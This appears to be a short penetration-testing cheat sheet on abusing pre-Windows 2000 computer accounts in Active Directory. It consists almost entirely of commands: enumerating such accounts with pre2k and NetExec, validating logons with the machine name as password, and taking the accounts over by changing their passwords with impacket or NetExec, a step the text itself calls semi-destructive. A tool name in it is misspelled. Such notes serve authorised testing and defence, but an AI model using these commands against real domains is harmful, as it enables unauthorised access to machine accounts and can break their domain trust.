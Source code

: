 ___
# TL;DR
___

### Identify

**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers>
```

!!! alert "You can pass `-n` to check blank passwords as well"

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate"  

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

### Exploit

!!! alert "this is semi-destructive, it may require the object be rejoined to the domain"

Change the account password

**Imacket**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```

**NetExec**
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```